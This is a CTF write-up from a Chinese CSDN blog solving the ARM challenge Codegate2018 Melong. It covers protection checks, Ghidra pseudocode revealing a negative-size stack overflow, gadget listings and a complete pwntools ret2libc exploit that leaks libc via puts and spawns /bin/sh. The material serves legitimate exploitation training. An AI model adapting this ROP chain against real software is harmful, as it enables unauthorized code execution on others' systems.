


<!--yml
category: 未分类
date: 2022-04-26 14:38:30
-->

# ctf-wiki ARM ROP Codegate2018_Melong题解_flypwn的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_42016744/article/details/118517898](https://blog.csdn.net/weixin_42016744/article/details/118517898)

## 写在前面

ctf-wiki关于arm pwn的[arm - ROP](https://ctf-wiki.org/pwn/linux/arm/arm_rop/#arm-rop "Permanent link")中的例题是Codegate2018_Melong，但在网上一直没找到write up，这里跟着官方解给出的exp调试记录。

## 确定保护

```
$ file ./melong
./melong: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=2c55e75a072020303e7c802d32a5b82432f329e9, not stripped
$ checksec ./melong
[*] '/home/giantbranch/ctf_wiki_study/ctf-challenges/pwn/arm/Codegate2018_Melong/melong'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000) 
```

猜测是栈溢出题目，保护机制带随机部分随机化，Partial RELRO

## 静态分析

首先用命令`$ qemu-arm -L ./ ./melong`运行程序，程序结果如下图所示：


典型菜单题，运行之后发现首先需要选择菜单1，计算bmi指数，之后才能选择其他功能。经测试程序的大规模文本输入点在选项4中，但是需要选项3符合一定条件才行。

```
You are underweight !!
1\. Check your bmi
2\. Exercise
3\. Register personal training
4\. Write daily record
5\. Have some health menu
6\. Out of the gym

Type the number:3
Let's start personal training
How long do you want to take personal training?
10
Check your bmi again!!
1\. Check your bmi
2\. Exercise
3\. Register personal training
4\. Write daily record
5\. Have some health menu
6\. Out of the gym

Type the number:4
you should take personal training first!! 
```

将程序拖到ghidra进行静态分析，查看主函数中case 3和case 4中的情况。


可以看到若想到达case 4中的write_diary函数，首先需要变量local_18[0]!=0才行。
注意到case 3中：local_18[0]=PT()，进一步查看函数PT()中的内容，伪代码如下图所示：

```
size_t PT(void)

{
  size_t local_14;
  void *local_10;
  int local_c;

  puts("Let\'s start personal training");
  puts("How long do you want to take personal training?");
  __isoc99_scanf(&DAT_00011e24,&local_14);
  local_10 = malloc(local_14);
  if (local_10 == exc2) {
    puts("Okay, start to exercise!");
    local_c = 0;
    while (local_c < (int)local_14) {
      puts("you are getting healthy..");
      sleep(1);
      local_c = local_c + 1;
    }
    free(local_10);
  }
  else {
    puts("Check your bmi again!!");
    free(local_10);
    local_14 = 0;
  }
  return local_14;
} 
```

这里没明白local_10==exc2中的exc2是什么意思。但是经测试输入-1时，在菜单4中可以写入，猜测这里是可能的溢出点。

```
Type the number:3
Let's start personal training
How long do you want to take personal training?
-1
Okay, start to exercise!
1\. Check your bmi
2\. Exercise
3\. Register personal training
4\. Write daily record
5\. Have some health menu
6\. Out of the gym

Type the number:4
dddddddd
you wrote dddddddd 
```

尝试输入长字符：

```
Type the number:4
ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd
you wrote ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

1\. Check your bmi
2\. Exercise
3\. Register personal training
4\. Write daily record
5\. Have some health menu
6\. Out of the gym

Type the number:6
See you again :)
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault (core dumped) 
```

进入gdb调试，开启两个termial
`qemu-arm -L ./ -g 2222 ./melong`

```
> gdb-multiarch ./melong
> target remote :2222 
```

挂载调试程序崩溃时的场景，存在栈溢出。
评估栈溢出的长度,利用pwntools中的cyclic工具，偏移长度84

看到函数表中有puts函数，可以上pwn的传统工艺:
栈溢出==>puts(elf.got[‘function_name’])<mark>>计算libc基址</mark>>跳回main==>跳转到system("/bin/sh")

arm32利用gadget:`pop {r0,pc}`
利用ROPgadget寻找地址：

```
> ROPgadget --binary ./melong --only "pop"
Gadgets information
============================================================
0x000106bc : pop {fp, pc}
0x00011bbc : pop {r0, pc}
0x00010460 : pop {r3, pc}
0x000109cc : pop {r4, fp, pc}
0x000105e4 : pop {r4, pc}
0x00011408 : pop {r4, r5, pc}
0x0001173c : pop {r4, r5, r6, pc}
0x00011d28 : pop {r4, r5, r6, r7, r8, sb, sl, pc}

Unique gadgets found: 8 
```

完成EXP如下所示：

```
from pwn import *
from time import sleep
import sys
context.binary = "./melong"

if sys.argv[1] == "r":
    io = remote("localhost", 9999)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
elif sys.argv[1] == "g":
    io = process(["qemu-arm", "-g", "1239", "-L", "./", "./melong"])

elf = ELF("./melong", checksec = False)
libc = ELF("./lib/libc.so.6", checksec = False)

def check(height,weight):
    io.sendlineafter("number:","1")
    io.sendlineafter(" : ",str(height))
    io.sendlineafter(" : ",str(weight))
def register():
    io.sendlineafter("number:","3")
    io.sendlineafter(" training?\n","-1\n")

def write_record(record):
    io.sendlineafter("number:","4")
    io.send(record)

def log_out():
    io.sendlineafter("number:","6")

pop_r0 = 0x11bbc
check(1.82,600)
register()
payload=cyclic(100)
log_out()

payload=cyclic(84)+p32(pop_r0)+p32(elf.got['printf'])+p32(elf.plt['puts'])+p32(0x110cc)*8
write_record(payload)
log_out()
io.recvuntil("again :)\n")
libc_address=u32(io.recvn(4))-libc.sym['printf']
success("libc_address->{:#x}".format(libc_address))
libc.address=libc_address
check(1.9,30)
register()
print("libc.search type is ",libc.search("/bin/sh"))
print(hex(libc.sym["system"]))
print(hex(next(libc.search("/bin/sh"))))
payload=cyclic(0x54)+p32(pop_r0)+p32(next(libc.search("/bin/sh")))+p32(libc.sym["system"])
write_record(payload)
log_out()
io.interactive() 
```